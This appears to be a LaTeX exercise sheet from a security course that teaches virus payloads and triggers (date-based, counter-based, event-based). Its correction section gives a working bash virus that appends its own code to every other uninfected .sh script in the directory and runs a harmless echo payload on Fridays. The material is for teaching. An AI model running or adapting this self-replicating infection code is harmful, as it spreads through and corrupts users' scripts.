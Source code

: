\documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[VBashX Project]
\begin{rappel}
\textbf{Payload and triggers:}

The \textbf{payload} is the malicious action performed by the virus (displaying a message, deleting files, encryption, etc.). It is typically activated by a conditional \textbf{trigger}:

\begin{itemize}
    \item \textbf{Temporal:} activated at a specific date/time (e.g., Friday, April 1st)
    \item \textbf{By counter:} activated after a certain number of executions
    \item \textbf{Event-based:} activated by a system event (network connection, file present, etc.)
\end{itemize}

\textbf{Useful commands:}
\begin{itemize}
    \item \texttt{date +\%u}: day of the week (1=Monday, \ldots, 5=Friday, 7=Sunday)
    \item \texttt{date +\%d}: day of the month (01--31)
    \item Hidden files: a name starting with \texttt{.} (dot) is hidden from \texttt{ls}
\end{itemize}

\textit{Link with Lab Work 2:} logic bombs use the same conditional trigger principle.
\end{rappel}

\begin{enumerate}
\item[\textbf{3a)}] Add a payload activated only on \textbf{Friday}. Use \texttt{date +\%u} (5=Friday). The payload will be a simple \texttt{echo} (non-destructive!). Integrate this feature into the Phase 2a virus.

\item[\textbf{3b)}] Counter variant: use a hidden file \texttt{.vbx\_count} incremented on each virus execution. The payload triggers after 3 executions.

\item[\textbf{3c)}] Propose a method to test the Friday trigger without waiting for Friday. Hint: explore the options of \texttt{date -d}.
\end{enumerate}

\begin{correction}

\textbf{3a)} Virus with temporal payload (Friday):
\begin{lstlisting}[title=vbashx\_phase3a.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Phase 3a --- VBX_7k9Pz
MARKER="VBX_7k9Pz"
VIRUS_SIZE=15
# Payload: triggered on Friday (day 5)
if [ "$(date +%u)" -eq 5 ]; then
    echo "[VBashX] PAYLOAD ACTIVATED - Today is Friday!"
fi
# Infection phase
for f in *.sh; do
    if [ "$(basename "$f")" != "$(basename "$0")" ]; then
        if [ -z "$(grep "$MARKER" "$f")" ]; then
            tail -n $VIRUS_SIZE "$0" >> "$f"
        fi
    fi
done
\end{lstlisting}


\end{correction}
\end{exercice}
\end{document}
